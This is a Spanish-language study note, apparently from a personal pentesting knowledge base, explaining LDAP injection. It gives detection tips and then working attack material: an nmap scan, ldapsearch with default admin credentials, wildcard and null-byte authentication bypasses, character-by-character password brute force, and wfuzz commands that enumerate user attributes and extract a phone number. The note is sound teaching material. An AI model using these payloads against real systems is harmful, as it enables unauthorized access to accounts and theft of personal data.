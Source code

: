 # Inyecciones LDAP

***

* Tags: #OWASP\_TOP\_10 #vulnerabilidad #hacking #LDAP #Directorio\_activo

***

> Las inyecciones **LDAP (Protocolo Ligero de Acceso a Directorios)** son una categoría de vulnerabilidades de seguridad en aplicaciones web que involucran la manipulación maliciosa de consultas o comandos LDAP dentro de una solicitud.
>
> **LDAP** es un protocolo utilizado para acceder y gestionar información de directorios, como bases de datos de usuarios y contraseñas en sistemas de autenticación.
>
> Las inyecciones **LDAP** ocurren cuando un atacante introduce datos maliciosos, a menudo a través de campos de entrada, con el fin de engañar a la aplicación para que realice consultas LDAP no deseadas. Esto puede dar como resultado la obtención no autorizada de información confidencial o incluso la toma de control de la autenticación y autorización del sistema, además se podrían realizar operaciones maliciosas en la red, como lanzar ataques de \[\[Phishing]] o incluso instalar software malicioso en los sistemas de la red.
>
> Para evitar este tipo de ataques, las aplicaciones que interactúan con un servidor **LDAP** deben validar y limpiar adecuadamente la entrada del usuario antes de enviarla al servidor, además de **monitorizar** regularmente las **actividades** del servidor como la ejecución con\*\* privilegios mínimos\*\* en la red.

***

## Detección de vulnerabilidad

Para empezar, debe estar habilitado el servicio a través del **puerto 389** o el **puerto 636** (ldaps). Podemos seguir los siguientes pasos para intentar detectar esta vulnerabilidad:

* **Manipulación en los puntos de entrada de datos:** Podemos tratar de identificar áreas en la página donde los usuarios puedan ingresar datos, como formularios de inicio de sesión, campo des búsqueda u otros, de manera que podemos tratar de incluir caracteres especiales, comillas y otros caracteres que puedan ser interpretados por el protocolo **LDAP**. Una cadena típica de inyección es `"John*)(|(objectClass=*"`.
* **Errores de sintaxis LDAP o tiempos de respuesta largos:** Si la aplicación web devuelve errores de sintaxis LDAP o mensajes de error relacionados con consultas LDAP, podría indicar que la inyección es posible y que no se aplica una validación correcta en la entrada de datos. Si hay tiempos de respuesta significativamente más largos después de la manipulación de datos, también puede ser indicio de que es vulnerable.

***

## Explotación

Una vez hayamos detectado que el **puerto 389** está abierto, podemos utilizar scripts de \[\[nmap]] que nos proporcionan información acerca del servicio **LDAP**:

```bash
nmap --script ldap\* -p389 <IP>
```

lo cual nos debería devolver algo parecido a lo siguiente:

!\[\[Pasted image 20230902123040.png]]

de donde podemos observar en el campo **namingContexts** el dominio de la página web, en este caso example.org.

Ahora podremos ejecutar el siguiente comando para hacer un análisis más profundo del servicio:

```bash
ldapsearch -x -H ldap://<IP> -b dc=example,dc=org -D "cn=admin,dc=exmaple,dc=org" -w admin 'cn=admin'
```

donde los parámetros significan:

* **-x**: para que utilice autentificación simple
* **-H**: para especificar la URL a la que queremos acceder
* **-b**: (base de búsqueda) le proporcionamos el dominio encontrado anteriormente.
* **-D**: (Distinguished name) le indicamos como qué usuario nos queremos identificar
* **-w**: (passwd) le indicamos que contraseña queremos utilizar

Al final del comando utilizamos el criterio de búsqueda para que filtre por el usuario admin, pero podemos hacer búsquedas más avanzadas, como por ejemplo la siguiente, que se refiere a que el usuario sea admin **y** la descripción empiece por LDAP:

```bash
"(&(cn=admin)(description=LDAP*))"
```

### Obtención de credenciales y acceso al sistema

Este tipo de peticiones son las que puede realizar un servicio web que esté corriendo un LDAP, de manera que si no se ha sanitizado correctamente la entrada de los datos, por ejemplo que reciba los datos y haya una sentencia como la siguiente:

```
$filter = '(&(cn=' . $userId . ')(userPassword=' . $password . '))';
```

seríamos capaces de introducir los campos admin:\* de manera que la petición quedaría de la siguiente forma:

```
$filter = '(&(cn=admin)(userPassword=*))';
```

con la que habríamos ganado acceso al sistema como admin. Para intentar deducir la contraseña, podemos hacer un proceso similar al de \[\[NoSQLi]], en el que vamos realizando fuerza bruta para descubrir los usuarios existentes con sus respectivas contraseñas, podemos hacer uso de \[\[Burpsuite]] para que sea más cómodo el proceso de modificación:

```
$filter = '(&(cn=admin)(userPassword=a*))';  #No ganamos acceso, la contraseña no empieca por a
$filter = '(&(cn=admin)(userPassword=b*))';  #No ganamos acceso, la contraseña no empieca por b
$filter = '(&(cn=admin)(userPassword=c*))';  #Ganamos acceso, la contraseña empieza por c

$filter = '(&(cn=admin)(userPassword=ca*))';  #No ganamos acceso, la contraseña no empieca por ca
...

$filter = '(&(cn=a*)(userPassword=*))';      #No ganamos acceso, no hay usuarios que empiecen por a
$filter = '(&(cn=b*)(userPassword=*))';      #No ganamos acceso, no hay usuarios que empiecen por b
$filter = '(&(cn=c*)(userPassword=*))';      #Ganamos acceso, hay al menos un usuario que empiece por c

$filter = '(&(cn=ca*)(userPassword=*))';      #No ganamos acceso, no hay usuarios que empiecen por ca
...
```

También podemos hacer uso del **null byte** para que el campo de la contraseña no quede dentro de la petición, de manera que solo estemos diciendo que queremos acceder como el usuario admin. Podríamos hacer una petición de la siguiente forma:

```
$filter = '(&(cn=admin))%20)(userPassword=testing))'; #Introduciendo admin))%20 como usuario
```

### Obtención de atributos de usuarios

Cada usuario perteneciente al servidor tiene sus atributos, que pueden aportar información relevante y suponer un riesgo conocer. Para hacer una enumeración de los atributos existentes de un usuario, podemos hacer uso de \[\[Wfuzz]] de la siguiente manera, suponiendo que el filtrado se realiza de la siguiente manera:

```
$filter = '(&(cn=admin)(userPassword=admin))';        
```

podemos utilizar como diccionario el pertenciente a [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LDAP-openldap-attributes.txt), para ejecutar el siguiente comando:

```
wfuzz -c -w /.../LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*' -u <URL>
```

y podríamos realizar un filtrado para quedarnos con las respuestas que nos interesen, para conseguir los atributos existentes para admin.

Una vez tengamos los atributos existentes para un usuario, podemos realizar fuerza bruta al igual que se ha utilizado anteriormente para conseguir el valor de dichos campos, por ejemplo, si quisiéramos conseguir el número de teléfono de un usuario podemos realizar el siguiente proceso:

```
wfuzz -c -z range,0-9 -d 'user_id=admin)(telephoneNumber=FUZZ*))%00&password=*' -u <URL>   #Obtenemos que empieza por 6
wfuzz -c -z range,0-9 -d 'user_id=admin)(telephoneNumber=6FUZZ*))%00&password=*' -u <URL>  #Obtenemos que empieza por 64
wfuzz -c -z range,0-9 -d 'user_id=admin)(telephoneNumber=64FUZZ*))%00&password=*' -u <URL>  #Obtenemos que empieza por 645
wfuzz -c -z range,0-9 -d 'user_id=admin)(telephoneNumber=645FUZZ*))%00&password=*' -u <URL>  #Obtenemos que empieza por 6450
...
```

Se podría programar un script en python para automatizar todos estos procesos de fuerza bruta.

***

## Ejemplos prácticos

* [LDAP-Injection-Vuln-App](https://github.com/motikan2010/LDAP-Injection-Vuln-App)
